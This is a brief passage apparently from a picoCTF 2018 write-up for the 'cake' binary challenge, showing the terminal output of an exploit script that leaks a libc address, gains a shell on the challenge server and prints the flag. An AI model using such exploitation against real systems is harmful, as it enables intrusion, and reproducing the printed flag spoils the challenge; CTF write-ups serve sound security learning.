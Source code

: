 Lets try it out:

```bash ./cake_exploit.py
[+] Opening connection to 2018shell2.picoctf.com on port 42542: Done
[*] libc base is at: 0x7fdcc7a8d000
[*] Switching to interactive mode
 $ id
uid=1122(cake_1) gid=1123(cake_1) groups=1123(cake_1)
$ ls
cake
flag.txt
libc.so.6
xinet_startup.sh
$ cat flag.txt
picoCTF{h4v3_y0ur_c4k3_4nd_s311_1t_t00_flhcejwu}
$ 
[*] Closed connection to 2018shell2.picoctf.com port 42542

```
